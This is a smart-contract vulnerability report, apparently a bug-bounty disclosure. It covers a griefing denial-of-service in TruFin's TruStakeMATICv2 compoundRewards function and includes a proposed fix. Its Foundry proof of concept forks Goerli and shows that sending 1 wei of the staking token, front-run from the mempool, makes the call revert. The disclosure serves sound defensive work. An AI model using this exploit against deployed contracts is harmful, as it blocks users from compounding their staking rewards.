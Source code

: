 # DoS attack on the function `compoundRewards`

Protocol: [TruFin](https://www.trufin.io/)
Severity: Medium

## Target(s)

- [TruStakeMATICv2(Proxy)](https://eth-goerli.blockscout.com/address/0x0ce41d234f5E3000a38c5EEF115bB4D14C9E1c89?tab=contract) / [TruStakeMATICv2(Implementation)](https://eth-goerli.blockscout.com/address/0x8f293490E6315f23f68f11A9861448aEA566530E?tab=contract)

## Impact(s)

- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Bug Description

The function `compoundRewards` call the function `_deposit` if the contract `TruStakeMATICv2` has a balance:

```solidity
    if (totalAssets() > 0) {
        _deposit(address(0), 0, _validator);
    }
```

As we can see, the internal function `_deposit` is called with the parameter `_user: address(0)` and inside it a `safeTransferFrom` is performed from the `address(0)` to the `TruStakeMATICv2` contract:

```solidity
    // transfer staking token from user to Staker
    IERC20Upgradeable(stakingTokenAddress).safeTransferFrom(_user, address(this), _amount);
```

As the `stakingTokenAddress` token the transaction reverts when performing a `transferFrom` with the `from: address(0)` parameter (_approve::`require(spender != address(0));`):

```solidity
   function transferFrom(address from, address to, uint256 value) public returns (bool) {
        _transfer(from, to, value);
        _approve(from, msg.sender, _allowed[from][msg.sender].sub(value));
        return true;
    }

    function _approve(address owner, address spender, uint256 value) internal {
        require(spender != address(0));
        require(owner != address(0));

        _allowed[owner][spender] = value;
        emit Approval(owner, spender, value);
    }
```

## Impact

- Users would not be able to use the `compoundRewards` function if the contract has at least 1 wei of `stakingTokenAddress` token

## Recommendation

In the `_deposit` add this if:

```solidity
    function _deposit(address _user, uint256 _amount, address _validator) private returns (uint256) {
        if (!_canAccessValidator(_user, _validator)) revert ValidatorAccessDenied();
        if (validators[_validator].state != ValidatorState.ENABLED) revert ValidatorNotEnabled();

        (uint256 globalPriceNum, uint256 globalPriceDenom) = sharePrice();

        // calculate share increase
        uint256 shareIncreaseUser = convertToShares(_amount);
        uint256 shareIncreaseTsy = (getRewardsFromValidator(_validator) * phi * 1e18 * globalPriceDenom) / (globalPriceNum * PHI_PRECISION);

        // piggyback previous withdrawn rewards in this staking call
        uint256 totalAssetBalance = totalAssets();
        uint256 stakeAmount = _amount + totalAssetBalance;
        // adjust share balances
        if (_user != address(0)) _mint(_user, shareIncreaseUser);

        _mint(treasuryAddress, shareIncreaseTsy);

        // transfer staking token from user to Staker
+       if (_user != address(0)) {
            IERC20Upgradeable(stakingTokenAddress).safeTransferFrom(_user, address(this), _amount);
+       }

        // approve funds to Stake Manager
        IERC20Upgradeable(stakingTokenAddress).safeIncreaseAllowance(stakeManagerContractAddress, stakeAmount);

        // interact with Validator Share contract to stake
        _stake(stakeAmount, _validator);
        // claimed rewards increase here as liquid rewards on validator share contract
        // are set to zero rewards and transferred to this vault

        emit Deposited(_user, shareIncreaseTsy, shareIncreaseUser, _amount, stakeAmount, totalAssetBalance, _validator);

        return shareIncreaseUser;
    }
```

## References

- https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02#swapexacttokensfortokens

## Proof of Concept

As we can see in the following code, an attacker can send 1 wei of `stakingTokenAddress` token to the contract causing the `compoundRewards` function call reverts.

The attacker has to look up the transaction in the mempool and send 1 wei, causing the transaction reverts.

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/StdUtils.sol";

contract PoC is Test {
    ITruStakeMATICv2 stake = ITruStakeMATICv2(0x0ce41d234f5E3000a38c5EEF115bB4D14C9E1c89);
    address validator = 0x1a9155Ead92CD339E3AE789fD3a5dC60ae268634;
    address attackerDoS = 0xd85Eb58f7bdAFcB3e580Dc0012470d2476859c6b;
    address randomSender = address(1234567890);

    function setUp() public {
        vm.selectFork(vm.createFork("https://rpc.ankr.com/eth_goerli"));
    }

    function testNormal() public {
        stake.compoundRewards(validator);
    }

    function testDoS() public {
        // The attacker transfer 1 wei of stakingToken to the TruStakeMATICv2 contract
        IERC20 stakingToken = stake.stakingTokenAddress();
        vm.prank(attackerDoS);
        stakingToken.transfer(address(stake), 1);

        // At this point the compoundRewards function reverts
        vm.prank(randomSender);
        stake.compoundRewards(validator);
    }
}

interface ITruStakeMATICv2 {
    function stakingTokenAddress() external view returns(IERC20);

    function compoundRewards(address _validator) external;
}

interface IERC20 {
    function transfer(address to, uint256 value) external returns (bool);
}
```
